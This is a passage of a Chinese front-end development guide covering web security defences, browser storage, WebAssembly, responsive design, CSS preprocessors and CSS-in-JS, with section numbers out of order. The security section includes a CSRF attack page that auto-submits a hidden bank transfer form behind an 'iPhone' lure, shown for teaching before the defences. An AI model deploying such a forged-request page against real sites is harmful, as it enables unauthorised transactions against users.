// Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123'

// 4. 使用 DOMPurify 库清理 HTML
import DOMPurify from 'dompurify';
element.innerHTML = DOMPurify.sanitize(userInput);
```

### 34.2 CSRF（跨站请求伪造）

```mermaid
sequenceDiagram
    participant U as 用户
    participant B as 银行网站
    participant E as 恶意网站
    
    U->>B: 登录银行，获得 Cookie
    U->>E: 访问恶意网站
    E->>E: 页面中隐藏表单
    E->>B: 自动提交转账请求<br/>（携带用户的 Cookie）
    B->>B: 验证 Cookie 有效
    B->>B: 执行转账！
```

**CSRF 攻击示例：**

```html
<!-- 恶意网站中的隐藏表单 -->
<body onload="document.getElementById('csrf-form').submit()">
  <h1>你赢了一部 iPhone！</h1>
  
  <form id="csrf-form" action="https://bank.com/transfer" method="POST" style="display:none">
    <input name="to" value="attacker-account" />
    <input name="amount" value="10000" />
  </form>
</body>

<!-- 或者通过图片标签发起 GET 请求 -->

```

**防御 CSRF：**

```javascript
// 1. CSRF Token（最常用）
// 服务端生成 token，嵌入表单
<form method="POST" action="/transfer">
  <input type="hidden" name="_csrf" value="random-token-here" />
  <input name="to" />
  <input name="amount" />
  <button type="submit">转账</button>
</form>

// 服务端验证 token
app.post('/transfer', (req, res) => {
  if (req.body._csrf !== req.session.csrfToken) {
    return res.status(403).json({ error: 'CSRF token 无效' });
  }
  // 处理转账...
});

// 2. SameSite Cookie（现代浏览器支持）
// Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly

// 3. 验证 Referer/Origin 头
app.use((req, res, next) => {
  const origin = req.headers.origin;
  if (origin && !origin.endsWith('.your-site.com')) {
    return res.status(403).json({ error: '非法来源' });
  }
  next();
});

// 4. 双重 Cookie 验证
// Cookie 中存储 token，请求时需要同时提交 cookie 值和表单中的 token
```

### 34.3 CSP（内容安全策略）

```
# CSP 头部示例
Content-Security-Policy: 
  default-src 'self';
  script-src 'self' https://cdn.example.com 'nonce-abc123';
  style-src 'self' 'unsafe-inline' https://fonts.googleapis.com;
  img-src 'self' data: https:;
  font-src 'self' https://fonts.gstatic.com;
  connect-src 'self' https://api.example.com;
  frame-ancestors 'none';
  base-uri 'self';
  form-action 'self';
```

| 指令 | 作用 | 示例 |
|---|---|---|
| `default-src` | 默认策略 | `'self'` |
| `script-src` | 脚本来源 | `'self' 'nonce-xxx'` |
| `style-src` | 样式来源 | `'self' 'unsafe-inline'` |
| `img-src` | 图片来源 | `'self' data: https:` |
| `connect-src` | XHR/Fetch 来源 | `'self' https://api.com` |
| `frame-ancestors` | 嵌入限制 | `'none'` |

### 34.4 CORS（跨域资源共享）

```mermaid
sequenceDiagram
    participant C as 客户端 (example.com)
    participant S as 服务器 (api.com)
    
    Note over C,S: 简单请求（GET/POST + 简单头部）
    C->>S: GET /data (Origin: example.com)
    S->>C: Access-Control-Allow-Origin: example.com
    
    Note over C,S: 预检请求（复杂请求）
    C->>S: OPTIONS /api/data<br/>Origin: example.com<br/>Access-Control-Request-Method: DELETE
    S->>C: Access-Control-Allow-Origin: example.com<br/>Access-Control-Allow-Methods: GET,POST,DELETE<br/>Access-Control-Allow-Headers: Content-Type<br/>Access-Control-Max-Age: 86400
    C->>S: DELETE /api/data (Origin: example.com)
    S->>C: 响应数据
```

```javascript
// 服务端 CORS 配置（Express）
const cors = require('cors');

// 开发环境：允许所有
app.use(cors());

// 生产环境：精确配置
app.use(cors({
  origin: ['https://app.example.com', 'https://admin.example.com'],
  methods: ['GET', 'POST', 'PUT', 'DELETE'],
  allowedHeaders: ['Content-Type', 'Authorization'],
  credentials: true,  // 允许 Cookie
  maxAge: 86400       // 预检缓存24小时
}));

// 前端：携带 Cookie 的请求
fetch('https://api.example.com/data', {
  credentials: 'include'  // 发送 Cookie
});
```

### 34.5 安全清单

| 威胁 | 防御措施 | 优先级 |
|---|---|---|
| XSS | 输出编码 + CSP + textContent | 🔴 高 |
| CSRF | CSRF Token + SameSite Cookie | 🔴 高 |
| 点击劫持 | X-Frame-Options + CSP frame-ancestors | 🟡 中 |
| 中间人 | HTTPS + HSTS | 🔴 高 |
| 注入 | 参数化查询 + 输入验证 | 🔴 高 |
| 敏感数据 | HttpOnly Cookie + 加密存储 | 🟡 中 |

---

## 35. 浏览器存储对比

### 35.1 全面对比表

| 特性 | localStorage | sessionStorage | IndexedDB | Cookies |
|---|---|---|---|---|
| **容量** | ~5-10MB | ~5-10MB | 数百MB+ | ~4KB |
| **过期时间** | 永久 | 标签页关闭时 | 永久 | 可设置 |
| **数据类型** | 字符串 | 字符串 | 任意 JS 对象 | 字符串 |
| **API 复杂度** | 简单 | 简单 | 复杂 | 简单 |
| **同步/异步** | 同步 | 同步 | 异步 | 同步 |
| **可被爬虫读取** | 否 | 否 | 否 | 可 |
| **随请求发送** | 否 | 否 | 否 | 是 |
| **Web Worker** | 可用 | 可用 | 可用 | 不可用 |
| **跨标签页** | 共享 | 隔离 | 共享 | 共享 |

### 35.2 localStorage

```javascript
// 存储
localStorage.setItem('user', JSON.stringify({ name: '张三', age: 25 }));

// 读取
const user = JSON.parse(localStorage.getItem('user'));

// 删除
localStorage.removeItem('user');

// 清空
localStorage.clear();

// 监听变化（跨标签页通信）
window.addEventListener('storage', (e) => {
  console.log('键:', e.key);
  console.log('旧值:', e.oldValue);
  console.log('新值:', e.newValue);
});
```

### 35.3 IndexedDB

```javascript
// 打开数据库
const request = indexedDB.open('MyDatabase', 1);

request.onupgradeneeded = (event) => {
  const db = event.target.result;
  
  // 创建对象仓库（类似表）
  const store = db.createObjectStore('users', { keyPath: 'id', autoIncrement: true });
  
  // 创建索引
  store.createIndex('name', 'name', { unique: false });
  store.createIndex('email', 'email', { unique: true });
};

request.onsuccess = (event) => {
  const db = event.target.result;
  
  // 添加数据
  const tx = db.transaction('users', 'readwrite');
  const store = tx.objectStore('users');
  store.add({ name: '张三', email: 'zhangsan@example.com', age: 25 });
  store.add({ name: '李四', email: 'lisi@example.com', age: 30 });
  
  // 读取数据
  const getTx = db.transaction('users', 'readonly');
  const getStore = getTx.objectStore('users');
  const getRequest = getStore.get(1);  // 获取 id=1 的记录
  
  getRequest.onsuccess = () => {
    console.log(getRequest.result);
  };
  
  // 使用索引查询
  const indexTx = db.transaction('users', 'readonly');
  const index = indexTx.objectStore('users').index('email');
  const indexReq = index.get('zhangsan@example.com');
  
  indexReq.onsuccess = () => {
    console.log(indexReq.result);
  };
};

request.onerror = () => {
  console.error('数据库打开失败:', request.error);
};
```

### 35.4 封装工具类

```javascript
class Storage {
  // localStorage 的安全封装
  static local = {
    set(key, value, ttl = null) {
      const data = {
        value,
        timestamp: Date.now(),
        ttl  // 过期时间（毫秒）
      };
      localStorage.setItem(key, JSON.stringify(data));
    },
    
    get(key) {
      const raw = localStorage.getItem(key);
      if (!raw) return null;
      
      const data = JSON.parse(raw);
      
      // 检查是否过期
      if (data.ttl && Date.now() - data.timestamp > data.ttl) {
        localStorage.removeItem(key);
        return null;
      }
      
      return data.value;
    },
    
    remove(key) {
      localStorage.removeItem(key);
    }
  };
  
  // Cookie 操作
  static cookie = {
    set(name, value, days = 7) {
      const expires = new Date(Date.now() + days * 864e5).toUTCString();
      document.cookie = `${name}=${encodeURIComponent(value)};expires=${expires};path=/;SameSite=Strict`;
    },
    
    get(name) {
      const cookies = document.cookie.split(';');
      for (const cookie of cookies) {
        const [key, val] = cookie.trim().split('=');
        if (key === name) return decodeURIComponent(val);
      }
      return null;
    },
    
    remove(name) {
      document.cookie = `${name}=;expires=Thu, 01 Jan 1970 00:00:00 GMT;path=/`;
    }
  };
}

// 使用
Storage.local.set('token', 'abc123', 3600000);  // 1小时过期
const token = Storage.local.get('token');

Storage.cookie.set('session', 'xyz789', 7);     // 7天过期
```

---

## 36. WebAssembly 入门

### 36.1 什么是 WebAssembly

```mermaid
graph LR
    subgraph 源语言
        C[C/C++]
        Rust[Rust]
        Go[Go]
        AS[AssemblyScript]
    end
    
    subgraph 编译
        WAT[WAT 文本格式]
        WASM[WASM 二进制格式]
    end
    
    subgraph 浏览器
        VM[Wasm 虚拟机]
        JS[JavaScript]
    end
    
    C -->|Emscripten| WAT
    Rust -->|wasm-pack| WAT
    Go -->|TinyGo| WAT
    AS -->|asc| WAT
    
    WAT -->|汇编| WASM
    WASM --> VM
    VM <-->|互操作| JS
    
    style WASM fill:#FF6B35,color:#fff
    style VM fill:#2196F3,color:#fff
```

### 36.2 WAT（WebAssembly Text Format）

```wat
;; WAT 示例：加法函数
(module
  ;; 导出一个名为 "add" 的函数
  (func $add (param $a i32) (param $b i32) (result i32)
    ;; 将两个参数相加并返回
    local.get $a
    local.get $b
    i32.add
  )
  
  ;; 导出函数
  (export "add" (func $add))
  
  ;; 另一个函数：计算阶乘
  (func $factorial (param $n i32) (result i32)
    (if (result i32) (i32.le_s (local.get $n) (i32.const 1))
      (then (i32.const 1))
      (else
        (i32.mul
          (local.get $n)
          (call $factorial (i32.sub (local.get $n) (i32.const 1)))
        )
      )
    )
  )
  
  (export "factorial" (func $factorial))
  
  ;; 内存
  (memory (export "memory") 1)  ;; 1 页 = 64KB
)
```

### 36.3 JavaScript 与 WebAssembly 互操作

```javascript
// 方式 1：从 WAT 编译并实例化
async function loadWasmFromWat() {
  // 使用 wabt 工具将 WAT 转换为 WASM
  const response = await fetch('module.wasm');
  const bytes = await response.arrayBuffer();
  
  const { instance } = await WebAssembly.instantiate(bytes, {
    // 可以传入 JavaScript 函数供 Wasm 调用
    env: {
      log: (value) => console.log('Wasm says:', value),
      memory: new WebAssembly.Memory({ initial: 256 })
    }
  });
  
  // 调用导出的函数
  const result = instance.exports.add(3, 5);
  console.log('3 + 5 =', result);  // 8
  
  const fact = instance.exports.factorial(10);
  console.log('10! =', fact);  // 3628800
}

// 方式 2：使用 Emscripten 编译 C 代码
// add.c:
// int add(int a, int b) { return a + b; }
// 编译：emcc add.c -o add.js -s EXPORTED_FUNCTIONS='["_add"]' -s EXPORTED_RUNTIME_METHODS='["ccall","cwrap"]'

async function loadEmscriptenModule() {
  const Module = await createModule();
  
  // 使用 cwrap 创建 JS 函数包装
  const add = Module.cwrap('add', 'number', ['number', 'number']);
  console.log(add(3, 5));  // 8
}
```

### 36.4 性能对比

```javascript
// 斐波那契数列性能测试
// JavaScript 版本
function fibJS(n) {
  if (n <= 1) return n;
  return fibJS(n - 1) + fibJS(n - 2);
}

// WebAssembly 版本（通过加载 .wasm 模块）
async function benchmark() {
  const { instance } = await WebAssembly.instantiate(wasmBytes);
  const fibWasm = instance.exports.fibonacci;
  
  const n = 40;
  
  console.time('JavaScript');
  const jsResult = fibJS(n);
  console.timeEnd('JavaScript');  // ~800ms
  
  console.time('WebAssembly');
  const wasmResult = fibWasm(n);
  console.timeEnd('WebAssembly');  // ~200ms (约4倍速)
}
```

### 36.5 应用场景

| 场景 | 说明 | 性能提升 |
|---|---|---|
| 图像/视频处理 | 像素级操作、滤镜、编码解码 | 2-10x |
| 游戏引擎 | 物理计算、碰撞检测 | 3-8x |
| 加密算法 | AES、SHA、RSA | 5-20x |
| 数据压缩 | gzip、brotli、zstd | 3-10x |
| 科学计算 | 矩阵运算、模拟 | 5-15x |
| CAD/3D | 模型计算、渲染管线 | 3-8x |
| 音频处理 | 实时音频效果、编解码 | 2-5x |

> **注意**：WebAssembly 适合计算密集型任务，不适合 DOM 操作。DOM 操作仍然是 JavaScript 的领域。


---

## 26. 响应式设计完全指南

响应式设计（Responsive Web Design, RWD）是一种使网页能够自适应不同设备屏幕尺寸的设计方法论。它不仅仅是"手机上能看"，而是一套完整的设计哲学和技术体系。

### 26.1 响应式设计核心原则

响应式设计建立在三个核心技术支柱之上：

| 支柱 | 技术 | 作用 |
|------|------|------|
| **弹性网格布局** | Flexbox / Grid | 使布局能够按比例缩放 |
| **弹性媒体** | `max-width` / `aspect-ratio` | 图片和视频自适应容器 |
| **媒体查询** | `@media` | 根据设备特征应用不同样式 |

```mermaid
graph TD
    A[响应式设计] --> B[弹性网格布局]
    A --> C[弹性媒体]
    A --> D[媒体查询]
    B --> B1[Flexbox]
    B --> B2[CSS Grid]
    B --> B3[百分比布局]
    C --> C1[图片自适应]
    C --> C2[视频自适应]
    C --> C3[字体缩放]
    D --> D1[视口宽度]
    D --> D2[设备方向]
    D --> D3[分辨率]
    D --> D4[容器查询]
```

### 26.2 媒体查询（Media Queries）

媒体查询是响应式设计的基石，允许根据设备特征有条件地应用 CSS 样式。

#### 基本语法

```css
/* 基本媒体查询 */
@media media-type and (media-feature) {
  /* CSS 规则 */
}

/* 常用媒体类型 */
/* all: 所有设备（默认） */
/* screen: 屏幕设备 */
/* print: 打印设备 */
/* speech: 屏幕阅读器 */

/* 常用媒体特征 */
@media (min-width: 768px) { /* >= 768px 时生效 */ }
@media (max-width: 1024px) { /* <= 1024px 时生效 */ }
@media (orientation: landscape) { /* 横屏时生效 */ }
@media (prefers-color-scheme: dark) { /* 深色模式 */ }
@media (prefers-reduced-motion: reduce) { /* 减少动画 */ }
@media (hover: hover) { /* 支持悬停的设备 */ }
@media (pointer: fine) { /* 精确指针（鼠标） */ }
```

#### 媒体查询逻辑组合

```css
/* AND 组合 - 同时满足 */
@media (min-width: 768px) and (orientation: landscape) { }

/* OR 组合 - 满足其一 */
@media (min-width: 1200px), (orientation: landscape) { }

/* NOT 取反 */
@media not print { }

/* 复杂组合 */
@media screen and (min-width: 768px) and (max-width: 1024px) and (orientation: portrait) { }
```

#### 移动优先 vs 桌面优先

```css
/* 移动优先（推荐）：基础样式针对小屏幕，逐步增强 */
.container {
  padding: 1rem;
  grid-template-columns: 1fr;
}

@media (min-width: 768px) {
  .container {
    padding: 2rem;
    grid-template-columns: repeat(2, 1fr);
  }
}

@media (min-width: 1024px) {
  .container {
    padding: 3rem;
    grid-template-columns: repeat(3, 1fr);
  }
}

/* 桌面优先：基础样式针对大屏幕，逐步降级 */
.container {
  padding: 3rem;
  grid-template-columns: repeat(3, 1fr);
}

@media (max-width: 1023px) {
  .container {
    padding: 2rem;
    grid-template-columns: repeat(2, 1fr);
  }
}

@media (max-width: 767px) {
  .container {
    padding: 1rem;
    grid-template-columns: 1fr;
  }
}
```

### 26.3 容器查询（Container Queries）

容器查询是媒体查询的进化版，允许根据**父容器**而非视口来调整样式，实现真正的组件级响应式设计。

#### 基本用法

```css
/* 定义容器 */
.card-wrapper {
  container-type: inline-size;
  container-name: card;
}

/* 容器查询 */
@container card (min-width: 400px) {
  .card {
    display: grid;
    grid-template-columns: 200px 1fr;
    gap: 1rem;
  }
}

@container card (min-width: 600px) {
  .card {
    grid-template-columns: 250px 1fr;
    padding: 2rem;
  }
}

/* 匿名容器查询（不需要 container-name） */
@container (min-width: 300px) {
  .widget-title {
    font-size: 1.5rem;
  }
}
```

#### 容器查询单位

```css
.card-wrapper {
  container-type: inline-size;
}

.card-title {
  /* cqw = 容器宽度的 1% */
  font-size: clamp(1rem, 3cqw, 2rem);

  /* cqh = 容器高度的 1% */
  min-height: 20cqh;

  /* cqi = 容器内联尺寸的 1% */
  padding: 2cqi;

  /* cqb = 容器块级尺寸的 1% */
  margin-bottom: 1cqb;

  /* cqmin / cqmax = 取 cqi/cqb 的最小/最大值 */
  width: 80cqmin;
}
```

#### 容器查询 vs 媒体查询

| 特性 | 媒体查询 | 容器查询 |
|------|----------|----------|
| 参考对象 | 视口（viewport） | 父容器 |
| 适用场景 | 全局布局调整 | 组件级适配 |
| 复用性 | 同一组件在不同位置表现相同 | 同一组件在不同容器中自适应 |
| 浏览器支持 | 所有浏览器 | 现代浏览器（2023+） |
| 性能 | 非常好 | 很好（需要 layout containment） |

### 26.4 流式布局（Fluid Layout）

流式布局使用相对单位而非固定像素值，使元素能够平滑地在不同尺寸间过渡。

```css
/* 流式间距 */
.section {
  /* 使用 clamp 实现流式间距 */
  padding: clamp(1rem, 3vw, 4rem);
  gap: clamp(0.5rem, 2vw, 2rem);
}

/* 流式排版 */
h1 {
  /* 最小值 / 首选值 / 最大值 */
  font-size: clamp(1.75rem, 4vw + 1rem, 3.5rem);
  line-height: clamp(1.2, 1.2 + 0.5vw, 1.5);
}

p {
  font-size: clamp(1rem, 1.5vw + 0.5rem, 1.25rem);
}

/* 流式网格 */
.grid {
  /* auto-fit: 自动填充尽可能多的列 */
  /* minmax: 每列最小 250px，最大 1fr */
  display: grid;
  grid-template-columns: repeat(auto-fit, minmax(min(250px, 100%), 1fr));
  gap: clamp(1rem, 2vw, 2rem);
}

/* 流式容器宽度 */
.container {
  width: min(90%, 1200px);
  margin-inline: auto;
}
```

#### CSS 函数在流式布局中的应用

```css
/* clamp() - 限制值在最小和最大之间 */
/* clamp(min, preferred, max) */
font-size: clamp(1rem, 2.5vw, 2rem);

/* min() - 取较小值 */
width: min(90%, 1200px);

/* max() - 取较大值 */
padding: max(1rem, 3vw);
```

### 26.5 断点策略

#### 常用断点体系

```css
/* 基于常见设备尺寸的断点 */
/* 小手机: < 375px */
/* 手机: 375px - 767px */
/* 平板: 768px - 1023px */
/* 笔记本: 1024px - 1279px */
/* 桌面: 1280px - 1535px */
/* 大屏: >= 1536px */

/* Tailwind CSS 断点 */
/* sm: 640px */
/* md: 768px */
/* lg: 1024px */
/* xl: 1280px */
/* 2xl: 1536px */

/* Bootstrap 5 断点 */
/* sm: 576px */
/* md: 768px */
/* lg: 992px */
/* xl: 1200px */
/* xxl: 1400px */
```

#### 基于内容的断点（推荐）

```css
/* 不要基于设备断点，而是基于内容断点 */
/* 当布局开始"破裂"时，就是需要断点的地方 */

.article-layout {
  display: grid;
  grid-template-columns: 1fr;
}

/* 当侧边栏内容太窄时 */
@container (min-width: 60ch) {
  .article-layout {
    grid-template-columns: 3fr 1fr;
  }
}

/* 使用 ch 单位确保文本可读性 */
.content {
  max-width: 65ch; /* 约 65 个字符宽度，最佳阅读体验 */
  margin-inline: auto;
}
```

### 26.6 响应式设计最佳实践

```css
/* 1. 使用相对单位 */
.element {
  /* 好 */
  font-size: 1.25rem;
  padding: 1em;
  width: 80%;
  max-width: 60rem;

  /* 避免 */
  /* font-size: 20px; */
  /* width: 960px; */
}

/* 2. 视口元标签（HTML 中必须设置） */
/* <meta name="viewport" content="width=device-width, initial-scale=1"> */

/* 3. 避免固定高度 */
.card {
  /* 好：使用 min-height */
  min-height: 200px;

  /* 避免 */
  /* height: 200px; */
}

/* 4. 图片响应式 */
img {
  max-width: 100%;
  height: auto;
  display: block;
}

/* 5. 使用 object-fit 控制媒体 */
.avatar {
  width: 100px;
  height: 100px;
  object-fit: cover;
  border-radius: 50%;
}
```

```mermaid
graph LR
    A[设计响应式网站] --> B[选择断点策略]
    B --> C{基于内容还是设备?}
    C -->|内容优先| D[分析内容自然断点]
    C -->|设备优先| E[选择设备尺寸]
    D --> F[使用 clamp 实现流式过渡]
    E --> G[使用媒体查询切换]
    F --> H[容器查询处理组件级适配]
    G --> H
    H --> I[测试多种设备]
    I --> J[性能优化]
```

---

## 27. CSS 预处理器对比

CSS 预处理器扩展了 CSS 的功能，引入了变量、嵌套、混入、函数等编程特性，让样式编写更高效、更易维护。

### 27.1 主流预处理器概览

| 特性 | Sass/SCSS | Less | Stylus | PostCSS |
|------|-----------|------|--------|---------|
| **语法** | SCSS（类CSS）/ Sass（缩进） | 类CSS（扩展） | 缩进语法 | 标准CSS + 插件 |
| **变量** | `$variable` | `@variable` | `variable = value` | CSS 自定义属性 |
| **嵌套** | ✅ | ✅ | ✅ | 通过插件 |
| **混入** | `@mixin` / `@include` | `.mixin()` | `mixin()` | 通过插件 |
| **继承** | `@extend` | `:extend()` | `@extend` | 通过插件 |
| **函数** | `@function` | 函数 | 函数 | 通过插件 |
| **循环** | `@for` / `@each` / `@while` | 循环（有限） | 循环 | 通过插件 |
| **条件** | `@if` / `@else` | `when` | `if/else` | 通过插件 |
| **模块系统** | `@use` / `@forward` | `@import` | `@import` | 插件生态 |
| **社区生态** | ⭐⭐⭐⭐⭐ | ⭐⭐⭐ | ⭐⭐ | ⭐⭐⭐⭐⭐ |
| **构建速度** | 中等 | 快 | 快 | 取决于插件 |

### 27.2 Sass/SCSS 详解

Sass 是最流行的 CSS 预处理器，有两种语法：SCSS（Sassy CSS，类 CSS 语法）和 Sass（缩进语法）。

```scss
// SCSS 语法（推荐，文件扩展名 .scss）

// ---- 变量 ----
$primary-color: #3498db;
$font-stack: 'Helvetica Neue', Arial, sans-serif;
$breakpoint-tablet: 768px;
$spacing-unit: 8px;

// ---- 嵌套 ----
.navbar {
  background: $primary-color;
  padding: $spacing-unit * 2;

  .nav-item {
    color: white;
    text-decoration: none;

    &:hover {
      color: darken($primary-color, 15%);
    }

    &.active {
      font-weight: bold;
      border-bottom: 2px solid white;
    }
  }

  // 父选择器引用
  &__logo {
    width: 120px;
  }
}

// ---- 混入（Mixin） ----
@mixin flex-center($direction: row) {
  display: flex;
  flex-direction: $direction;
  justify-content: center;
  align-items: center;
}

@mixin responsive($breakpoint) {
  @if $breakpoint == 'tablet' {
    @media (min-width: $breakpoint-tablet) { @content; }
  } @else if $breakpoint == 'desktop' {
    @media (min-width: 1024px) { @content; }
  }
}

.hero {
  @include flex-center(column);
  min-height: 100vh;

  @include responsive('tablet') {
    @include flex-center(row);
  }
}

// ---- 函数 ----
@function calculate-rem($px) {
  @return $px / 16px * 1rem;
}

.title {
  font-size: calculate-rem(32px);
  margin-bottom: calculate-rem(24px);
}

// ---- 继承 ----
%message-shared {
  padding: 1rem;
  border-radius: 4px;
  margin-bottom: 1rem;
}

.success-message {
  @extend %message-shared;
  background: #d4edda;
  color: #155724;
}

.error-message {
  @extend %message-shared;
  background: #f8d7da;
  color: #721c24;
}

// ---- 循环 ----
$breakpoints: (
  'small': 480px,
  'medium': 768px,
  'large': 1024px,
  'xlarge': 1280px
);

@each $name, $value in $breakpoints {
  @media (min-width: $value) {
    .hide-#{$name}-up {
      display: none;
    }
  }
}

// 生成间距工具类
@for $i from 1 through 10 {
  .mt-#{$i} {
    margin-top: $spacing-unit * $i;
  }
  .mb-#{$i} {
    margin-bottom: $spacing-unit * $i;
  }
}

// ---- 模块系统（现代 Sass 推荐） ----
// _variables.scss
// _mixins.scss
// _base.scss
// main.scss 中使用：
// @use 'variables' as var;
// @use 'mixins';
```

### 27.3 Less 详解

```less
// Less 语法（文件扩展名 .less）

// ---- 变量 ----
@primary-color: #3498db;
@font-stack: 'Helvetica Neue', Arial, sans-serif;
@breakpoint-tablet: 768px;
@spacing-unit: 8px;

// ---- 嵌套 ----
.navbar {
  background: @primary-color;
  padding: @spacing-unit * 2;

  .nav-item {
    color: white;

    &:hover {
      color: darken(@primary-color, 15%);
    }
  }
}

// ---- 混入 ----
.flex-center(@direction: row) {
  display: flex;
  flex-direction: @direction;
  justify-content: center;
  align-items: center;
}

.hero {
  .flex-center(column);
  min-height: 100vh;
}

// ---- 函数 ----
.calculate-rem(@px) {
  @return: @px / 16px * 1rem;
}

.title {
  font-size: .calculate-rem(32px)[@return];
}

// ---- 继承 ----
.message-shared {
  padding: 1rem;
  border-radius: 4px;
  margin-bottom: 1rem;
}

.success-message {
  &:extend(.message-shared);
  background: #d4edda;
  color: #155724;
}

// ---- 循环 ----
.make-grid(@n, @i: 1) when (@i =< @n) {
  .col-@{i} {
    width: (@i / @n) * 100%;
  }
  .make-grid(@n, (@i + 1));
}

.make-grid(12);
```

### 27.4 Stylus 详解

```stylus
// Stylus 语法（文件扩展名 .styl）
// 注意：缩进语法，无需花括号和分号

// ---- 变量 ----
primary-color = #3498db
font-stack = 'Helvetica Neue', Arial, sans-serif
spacing-unit = 8px

// ---- 嵌套 ----
.navbar
  background primary-color
  padding spacing-unit * 2

  .nav-item
    color white
    text-decoration none

    &:hover
      color darken(primary-color, 15%)

    &.active
      font-weight bold

// ---- 混入 ----
flex-center(direction = row)
  display flex
  flex-direction direction
  justify-content center
  align-items center

.hero
  flex-center(column)
  min-height 100vh

// ---- 函数 ----
calculate-rem(px)
  (px / 16px) * 1rem

.title
  font-size calculate-rem(32px)

// ---- 条件 ----
responsive(breakpoint)
  if breakpoint == 'tablet'
    @media (min-width: 768px)
      {block}
  else if breakpoint == 'desktop'
    @media (min-width: 1024px)
      {block}

+responsive('tablet')
  .sidebar
    width 300px
```

### 27.5 PostCSS 详解

PostCSS 不是传统意义上的预处理器，而是一个用 JavaScript 转换 CSS 的工具框架。它通过插件系统提供各种功能。

```javascript
// postcss.config.js
module.exports = {
  plugins: [
    // 自动添加浏览器前缀
    require('autoprefixer'),

    // 嵌套规则
    require('postcss-nested'),

    // CSS 自定义属性（变量）
    require('postcss-custom-properties'),

    // 导入其他 CSS 文件
    require('postcss-import'),

    // 媒体查询优化
    require('postcss-sort-media-queries'),

    // 压缩
    require('cssnano')({ preset: 'default' }),
  ]
};
```

```css
/* 使用 PostCSS 插件的 CSS */
/* postcss-import 合并文件 */
@import './components/button.css';
@import './components/card.css';

/* postcss-nested 提供嵌套 */
.navbar {
  background: var(--primary-color);

  & .nav-item {
    color: white;

    &:hover {
      opacity: 0.8;
    }
  }
}

/* postcss-preset-env 现代 CSS 特性 */
:root {
  --primary: #3498db;
}

.card {
  /* 自动转换为兼容写法 */
  color: var(--primary);
  display: grid;
  gap: 1rem;
}
```

### 27.6 如何选择

```mermaid
graph TD
    A[需要 CSS 预处理器？] --> B{团队规模？}
    B -->|大型团队| C[Sass/SCSS]
    B -->|中小团队| D{已有技术栈？}
    B -->|只需要后处理| E[PostCSS]

    D -->|Node.js 生态| F{需要高级功能？}
    D -->|非 Node 生态| C

    F -->|是| C
    F -->|否| G[Less 或 PostCSS]

    C --> H[最成熟、文档最全、生态最大]
    E --> I[最灵活、按需组合、标准优先]
    G --> J[上手快、配置简单]
```

---

## 28. CSS-in-JS 方案对比

CSS-in-JS 是将 CSS 样式直接写在 JavaScript 中的技术方案，解决了传统 CSS 的全局作用域冲突、样式依赖管理等问题。

### 28.1 主流方案概览

| 特性 | styled-components | Emotion | Vanilla Extract | Panda CSS |
|------|-------------------|---------|-----------------|-----------|
| **运行时** | 有运行时开销 | 有运行时开销 | 零运行时 | 零运行时 |
| **类型安全** | TS 支持 | TS 支持 | 原生 TS | 原生 TS |
| **SSR 支持** | ✅ 优秀 | ✅ 优秀 | ✅ 优秀 | ✅ 优秀 |
| **动态样式** | ✅ 强大 | ✅ 强大 | ❌ 有限 | ⚠️ 有限 |
| **提取CSS文件** | ❌ 内联 | ❌ 内联 | ✅ 静态提取 | ✅ 静态提取 |
| **学习曲线** | 低 | 低 | 中 | 中 |
| **Bundle 大小** | ~12KB | ~8KB | ~0KB | ~4KB |
| **生态成熟度** | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐ | ⭐⭐ |
| **CSS 模板字面量** | ✅ | ✅ | ❌ 对象语法 | ❌ 对象语法 |

### 28.2 styled-components

```jsx
import styled, { keyframes, ThemeProvider, createGlobalStyle } from 'styled-components';

// 全局样式
const GlobalStyle = createGlobalStyle`
  * {
    margin: 0;
    padding: 0;
    box-sizing: border-box;
  }
  body {
    font-family: ${props => props.theme.fontFamily};
  }
`;

// 基础组件
const Button = styled.button`
  background: ${props => props.primary ? '#3498db' : '#fff'};
  color: ${props => props.primary ? '#fff' : '#3498db'};
  padding: 0.5rem 1rem;
  border: 2px solid #3498db;
  border-radius: 4px;
  cursor: pointer;
  transition: all 0.2s ease;

  &:hover {
    opacity: 0.9;
    transform: translateY(-1px);
  }

  /* 响应式 */
  @media (max-width: 768px) {
    width: 100%;
  }

  /* 伪元素 */
  &::after {
    content: '→';
    margin-left: 0.5rem;
  }
`;

// 扩展组件
const DangerButton = styled(Button)`
  background: #e74c3c;
  border-color: #e74c3c;
  color: #fff;
`;

// 动画
const fadeIn = keyframes`
  from { opacity: 0; transform: translateY(10px); }
  to { opacity: 1; transform: translateY(0); }
`;

const AnimatedCard = styled.div`
  animation: ${fadeIn} 0.3s ease-out;
`;

// 主题
const theme = {
  fontFamily: "'Inter', sans-serif",
  colors: {
    primary: '#3498db',
    secondary: '#2ecc71',
  },
};

// 使用
function App() {
  return (
    <ThemeProvider theme={theme}>
      <GlobalStyle />
      <Button primary>主要按钮</Button>
      <DangerButton>危险按钮</DangerButton>
    </ThemeProvider>
  );
}
```

### 28.3 Emotion

```jsx
/** @jsxImportSource @emotion/react */
import { css, jsx, keyframes, ThemeProvider, useTheme } from '@emotion/react';
import styled from '@emotion/styled';

// styled 用法（类似 styled-components）
const Button = styled.button`
  background: ${props => props.primary ? props.theme.colors.primary : '#fff'};
  padding: 0.5rem 1rem;
  border-radius: 4px;
`;

// css prop 用法（Emotion 特有）
function Card({ title, children }) {
  const theme = useTheme();

  return (
    <div css={css`
      background: white;
      border-radius: 8px;
      padding: 1.5rem;
      box-shadow: 0 2px 8px rgba(0, 0, 0, 0.1);
      border-left: 4px solid ${theme.colors.primary};
    `}>
      <h3 css={css`
        color: ${theme.colors.primary};
        margin-bottom: 0.5rem;
      `}>
        {title}
      </h3>
      {children}
    </div>
  );
}

// 对象语法
const styles = {
  container: (theme) => ({
    display: 'flex',
    flexDirection: 'column',
    gap: theme.spacing.md,
    padding: theme.spacing.lg,
  }),
  title: {
    fontSize: '1.5rem',
    fontWeight: 'bold',
  },
};

function Layout({ children }) {
  const theme = useTheme();
  return (
    <div css={styles.container(theme)}>
      {children}
    </div>
  );
}
```

### 28.4 Vanilla Extract

```typescript
// styles.css.ts - 在构建时生成纯 CSS 文件
import { style, styleVariants, createTheme, createVar } from '@vanilla-extract/css';

// 创建主题
export const [themeClass, vars] = createTheme({
  color: {
    primary: '#3498db',
    secondary: '#2ecc71',
    text: '#333333',
    background: '#ffffff',
  },
  spacing: {
    sm: '0.5rem',
    md: '1rem',
    lg: '2rem',
  },
  radius: {
    sm: '4px',
